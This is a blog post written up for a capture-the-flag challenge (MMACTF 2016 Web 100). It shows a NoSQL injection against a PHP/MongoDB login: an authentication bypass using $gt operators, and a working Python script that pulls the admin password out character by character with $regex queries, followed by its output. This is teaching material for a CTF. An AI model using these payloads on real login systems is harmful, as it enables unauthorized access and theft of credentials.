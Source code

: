 ```yaml
---
author: AnirudhAnand
layout: post
title: MongoDB - Extracting data (admin password) using NoSQL Injection - MMACTF 2016 Web 100 writeup
categories:
- ctf
summary: Using NoSQL injections to extract admin password from the database (MMACTF 2016 web 100 writeup)
description: Using NoSQL injections to extract admin password from the database (MMACTF 2016 web 100 writeup)
---
```


## Introduction

MMACTF 2015 was indeed a great learning experience, so I made sure that I took part in it this year. Last year, there were some really great challenges like "[Local File inclusion + File Upload = Remote Code execution]({%post_url 2015/CTF_writeups/MMACTF_2015/2015-09-07-mmactf-web300-challenge-writeup %})" and "[Executing php using script tags]({%post_url 2015/CTF_writeups/MMACTF_2015/2015-09-07-mmact-web-100-challenge %})". Both of them were real learning experience.

## Challenge

So this year I started again, hoping that it would be fun just like the last year and fortunately it was ! So lets go ahead and solve web 100. We were given a login page and a sample account `test:test` to login. I tried logging in and it simply says "You are logged in as test". Our aim is to login as admin. So the only possible injection place is the login page.

Challenge URL: [http://gap.chal.ctf.westerns.tokyo/login.php](http://gap.chal.ctf.westerns.tokyo/login.php)

Obviously the first thing to try is SQL injection but after messing around with the login page for sometime, I understood it has nothing to do with SQL. The next attempt was to try NoSQL and then I got some very interesting result. From the initial injection, it seems the backend database is MongoDB and I decided to read a bit more about it.

In simple terms, MongoDB works like this:

Request: `login.php?user=admin&password=1`

{%highlight php lineos %}
$collection->find(array(
    "username" => "admin",
    "passwd" => "1"
));
{%endhighlight%}

## Solution

The username and password is collected from the incoming data and the database is searched directly using this data. So what if we can pass objects or arrays ?

Request: `login.php?user[$gt]=&password[$gt]=`

{%highlight php lineos %}
$collection->find(array(
    "username" => array("$gt" => 1),
    "passwd" => array("$gt" => 1)
));
{%endhighlight%}

This will bypass the Authentication scheme and will drop us right into the first account in the database, which is admin ! So now we are now logged in as **admin** ! But the flag is the password of admin so we need to extract it. I googled on how to extract data but that didn't gave me much options. Later I came to know about `$regex` using which we can compare the password character by character. So here is the logic:

We initiate request with `user=admin&password[$regex]=T.*`. You can see that this gives a `302` redirect because the password starts with T (as password is flag and according to rules, flags starts with `TWCTF`). For all other characters, it gives back the status code `200`. We can easily automate this to find the rest of the password

{%highlight python lineos %}

import requests
import string

# We are sure that password is the flag which starts with "TWCTF{"
# and ends with "}"

flag = "TWCTF{"
url = "http://gap.chal.ctf.westerns.tokyo/login.php"

# Each time a 302 redirect is seen, we should restart the loop

restart = True

while restart:
    restart = False

    # Characters like *, ., &, and + has to be avoided because we use regex

    for i in string.ascii_letters + string.digits + "!@#$%^()@_{}":
        payload = flag + i
        post_data = {'user': 'admin', 'password[$regex]': payload + ".*"}
        r = requests.post(url, data=post_data, allow_redirects=False)

        # A correct password means we get a 302 redirect

        if r.status_code == 302:
            print(payload)
            restart = True
            flag = payload

            # Exit if "}" gives a valid redirect

            if i == "}":
                print("\nFlag: " + flag)

                exit(0)
            break


{%endhighlight%}

## Output

Script works the following way:

1) Since the password is the flag, we are sure that it starts with `TWCTF{` so this can be used to verify if what we are doing is correct.

2) I assumed that characters like `+`, `*` and `&` will not be there because it could break the Regex (and lucky it wasn't there !)

3) Script stops when we get a 302 redirection when the character is `}` because we are sure that the end character will be `}` (again, because password is same as flag).

{%highlight python lineos %}
TWCTF{w
TWCTF{wa
TWCTF{was
TWCTF{wass
TWCTF{wassh
TWCTF{wassho
TWCTF{wasshoi
TWCTF{wasshoi!
TWCTF{wasshoi!s
TWCTF{wasshoi!su
TWCTF{wasshoi!sum
TWCTF{wasshoi!summ
TWCTF{wasshoi!summe
TWCTF{wasshoi!summer
{%endhighlight%}

## References

These are some of the awesome references which came in handy during solving this problem:

1. [Mongodb is vulnerable to SQL injection in PHP at least](https://www.idontplaydarts.com/2010/07/mongodb-is-vulnerable-to-sql-injection-in-php-at-least/)
2. [Hacking NodeJs and MongoDB](http://blog.websecurify.com/2014/08/hacking-nodejs-and-mongodb.html)
